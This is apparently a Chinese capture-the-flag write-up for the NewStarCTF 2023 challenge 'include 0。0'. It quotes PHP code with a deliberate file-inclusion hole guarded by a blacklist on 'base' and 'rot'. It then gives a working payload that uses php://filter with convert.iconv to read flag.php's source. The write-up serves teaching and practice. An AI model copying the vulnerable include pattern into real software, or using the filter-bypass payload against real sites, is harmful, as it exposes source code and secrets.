

01NOTES · WP · 2026.11.11
include 0。0
NewStarCTF 2023 公开赛道。黑名单挡掉了 base64 和 rot13，只能换个过滤器：用 php://filter 的 convert.iconv 把 flag.php 的源码读出来。
题目源码
php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
@include($file);
}else{
die("nope");
}
?> nope代码审计
代码审计：
我们要找的flag在flag.php，这是一道文件包含。
参数file完全由用户输入决定，存在黑名单禁止了base64、rot13这类常见 php://filter 过滤器。
读取 flag
直接访问?file=flag.php没有回显，我们需要读取flag.php 源码，使用php://filter + convert.iconv：
text
?file=php://filter/convert.iconv.SJIS*.UCS-4*/resource=flag.php